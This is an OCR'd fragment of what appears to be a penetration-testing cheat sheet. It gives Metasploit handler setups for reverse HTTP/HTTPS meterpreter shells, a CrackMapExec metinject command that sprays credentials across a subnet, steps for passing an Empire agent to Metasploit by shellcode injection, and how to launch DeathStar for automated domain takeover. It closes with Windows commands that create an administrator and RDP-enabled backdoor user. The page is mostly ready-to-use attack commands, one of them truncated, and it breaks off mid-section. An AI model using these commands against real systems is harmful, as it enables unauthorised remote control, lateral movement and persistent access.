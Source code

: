 First setup your handler:

msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.10.3
LHOST => 192.168.10.3
msf exploit(handler) > set exitonsession false
exitonsession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://192.168.10.3:8443
msf exploit(handler) > [*] Starting the payload handler...
Then just run the metinject module and specify the LHOST and LPORT values:

#~ crackmapexec 192.168.10.0/24 -u username -p password -M metinject -o LHOST=192.168.1
Passing shell from Empire to Meterpreter metasploit
metasploit listner options

msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 192.168.1.110
lhost => 192.168.1.110
msf exploit(handler) > set lport 2286
lport => 2286
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set SessionCommunicationTimeout 0
SessionCommunicationTimeout => 0
msf exploit(handler) > exploit -j
Setup Empire to send the agent to Metasploit

use module code_execution/shellcode_inject
set Host <ip>
set Port <port>
execute
DeathStar
# Start the Empire console and RESTful API
python empire --rest --username empireadmin --password Password123
Then grab, setup and run DeathStar:

git clone https://github.com/byt3bl33d3r/DeathStar
# Death Star is written in Python3
pip3 install -r requirements.txt
./DeathStar.py
Windows cmd.exe commands
Add user
net user /add [username] [password]
Add User as an admin
net localgroup administrators [username] /add
Add user to RDP group
NET LOCALGROUP "Remote Desktop Users" keyoke /ADD
PTH_winexe : open shell without psexec
Example :
